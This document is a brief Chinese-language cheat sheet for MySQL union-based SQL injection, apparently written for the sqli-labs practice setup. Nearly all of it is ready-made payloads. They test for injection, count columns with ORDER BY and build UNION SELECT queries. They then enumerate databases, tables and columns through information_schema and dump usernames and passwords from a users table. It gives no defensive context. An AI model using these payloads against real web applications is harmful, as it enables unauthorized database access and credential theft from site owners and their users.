 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

`--+`
`-- 任意符号`
`%23`  (#ur编码)

##### 判断注入

`1' and 1=1 --+`
`1' and 1=2 --+`

##### 查询字段

`1' order by 1 --+` 正常
`1' order by 4 --+` 报错
`1' order by 3 --+` 正常
字段为3

##### UNION SELECT 联合查询

`-1' union select 1,2,3 --+`
`1' and 1=2 union select 1,2,3 --+`
报错2，3

##### 信息收集

`version()`   #Mysql版本
`user()`      #数据库用户名
`database()`  #数据库名
`@@datadir()` #数据库路径

##### 查询所有数据库

`-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+`

##### 查询当前数据库的所有表名

`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x`

##### 查询users表下的列名
`-1'  union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+`

##### 查询users表下的列名id,username,password的值
`-1'  union select 1, 2, group_concat(id,username,password) from users --+`













